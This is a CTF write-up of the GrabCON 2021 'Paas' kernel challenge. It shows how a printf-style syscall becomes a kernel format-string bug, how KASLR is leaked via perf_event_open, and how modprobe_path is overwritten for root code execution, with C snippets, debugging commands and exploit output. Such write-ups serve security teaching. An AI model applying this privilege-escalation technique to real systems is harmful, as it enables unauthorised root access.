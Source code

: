```yaml
---
layout: post
title: "GrabCON CTF 2021 - Paas [Pwn]"
categories: ctf
tags: kernel linux format-string 00xc
date: 2021-09-05 16:23:00 +0200
author: 00xc
---
```


Paas was a kernel exploitation challenge during GrabCON CTF 2021 that only got a single solve (our own). We are given a tarball and SSH access to a remote server. The compressed archive contains a shell script (`run.sh`) to launch a virtual machine using `qemu-system-x86_64`, a `bzImage` (the VM's kernel), an `initramfs` directory (the VM's filesystem), and a file named `printf.c`.

The `printf.c` file contains the source of a Linux kernel module which registers a new system call with the number 548. This syscall accepts a single parameter, which is an array of strings; these will be used as parameters to what seems to be a regular `printf` function. We wrote the following program to test it:

```c
#include <unistd.h>

int main() {
	char* args[] = {
		"s1 -> %s\n",
		"s2",
	}

	syscall(548, args);
}
```

We copy it to the user's home in the `initramfs` and we pack the new filesystem as instructed by the challenge author:

```bash
cd initramfs
find . | cpio -o -H newc > ../initramfs.cpio
cd ..
gzip < initramfs.cpio > initramfs.cpio.gz
rm -f initramfs.cpio
```

We start the VM, cd into the home directory and launch the program, which prints to standard out the expected string:

```
~ $ ./poc
s1 -> s2
```

Inspecting the source for the kernel module, there does not seem to be any input checking, which makes this a format string challenge, with the particularity of it being in kernel space. We then can use `%s` for arbitrary reads, and `%n` for arbitrary writes.

Before we read or write anything we must compute the kernel's base address, as it is randomized due to KASLR. We used the `perf_event_open` technique (implemented [here](https://github.com/bcoles/kasld/blob/master/src/perf_event_open.c)) to do so.

Once we have the kernel's base address, we can read or write any kernel structure by first computing its offset from the base address. Specifically, we are going to use a technique based in overwriting `modprobe_path`, as detailed [here](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/).

In order to get the address of `modprobe_path` we need to debug the Linux kernel with symbols. To get symbols we use [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) to extract the ELF file from the `bzImage` file. Next, we need to enable remote debugging and disable KASLR in order for the symbols to match their intended addresses; we do so by adding the `-s -S` flags and changing the `kaslr` option to `nokaslr` in the qemu command:

```bash
qemu-system-x86_64 \
	-s -S \
	-m 256M -initrd initramfs.cpio.gz -kernel ./bzImage \
	-nographic -monitor /dev/null -append "kpti=1 +smep +smap nokaslr root=/dev/ram rw console=ttyS0 oops=panic paneic=1 quiet" 2>/dev/null
```

The `-s` flag opens port 1234 for remote debugging, while `-S` will instruct the VM to freeze on startup so we can attach our debugger. We use the following gdb script to connect to the VM:

```
# Get symbols
file client/kernel.elf
# Connect
target remote :1234
# Breakpoint on vulnerable syscall
# We obtain its name by forcing a kernel crash and observing the stack trace
# We can also grep /proc/kallsyms for `printf` inside the VM
b __do_sys_printf
```

We now modify our program to include the KASLR bypass technique mentioned above and again call the vulnerable syscall. Then, we launch qemu and gdb, type `continue` in gdb after hitting the VM freeze, and start our program:

```
~ $ ./exploit 
[.] trying perf_event_open sampling ...
lowest leaked address: ffffffff8105612a
kernel base (likely): ffffffff81000000
```

The program now hits our breakpoint, which gives control back to gdb; at this point, we can obtain the address of `modprobe_path`:

```
(gdb) info address modprobe_path 
Symbol "modprobe_path" is at 0xffffffff8264ec60 in a file compiled without debugging.
```

Therefore, the offset of `modprobe_path` is `0xffffffff8264ec60 - ffffffff81000000 = 0x164ec60`. We can test this by running the following program and enabling KASLR:

```c

/*
 * KASLR leak stuff...
 */

/*
 * Read a location as a string
 */
void arb_read(uintptr_t ptr) {
	char* args[3] = {};

	args[0] = "%p -> %s\n";
	args[1] = ptr;
	args[2] = ptr;
	syscall(548, args);
}

int main() {
	unsigned long addr = get_kernel_addr_perf();
	unsigned long kernel_base, modprobe_path;

	if (!addr)
		return 1;

	kernel_base = addr & 0xfffffffffff00000ul;
	modprobe_path = kernel_base + 0x164ec60;

	printf("modprobe_path: ");
	arb_read(modprobe_path);

	return 0;
}
```

```
~ $ ./exploit 
[.] trying perf_event_open sampling ...
lowest leaked address: ffffffffaac5612a
kernel base (possible): ffffffffaac00000
kernel base (possible): ffffffffaa000000
0xffffffffac24ec60 -> /sbin/modprobe
```

At this point all we need to do is to overwrite `modprobe_path` and follow the steps detailed in kernel exploitation link above. As previously mentioned, we use `%n` for arbitrary writes, as with any other format string attack. The `%n` token writes to a certain location the amount of bytes written by `printf` up to that point. For example, if we were to write the byte `50` to some address, we would use the following format string: `%50c%hn`; `%50c` writes 50 characters to standard out, and `%hn` writes the number of previously written bytes (50) to the location pointed by the next parameter. The `h` modifier writes the specified amount as a short int (2 bytes); since we are writing single-byte amounts, this conveniently null-terminates our string without needing to make an additionall call. All of these behaviors are documented in the [printf documentation](https://www.cplusplus.com/reference/cstdio/printf/).

Finally, these are the steps of our exploit:

1. Leak the kernel base address.
2. Create a script in `/home/user/x` which will copy the flag to our home and make it readable.
3. Create a dummy binary file in `/home/user/dummy` with four `0xff` bytes.
4. Overwrite `modprobe_path`.
5. Try to execute the dummy binary file.
6. Read the flag.

You can find the full exploit [here](https://gist.github.com/00xc/97ce9c2e4413695c3a5423589f1f8767).

```
~ $ ./exploit 
[.] trying perf_event_open sampling ...
lowest leaked address: ffffffffb0c93132
kernel base (possible): ffffffffb0c00000
kernel base (possible): ffffffffb0000000
0xffffffffb224ec60 -> /sbin/modprobe
0xffffffffb224ec60 -> /home/user/x
/home/user/dummy: line 1: ����: not found
GrabCON{pr1n7f_1n_k3rn3l-4_b4d_1d34?}
```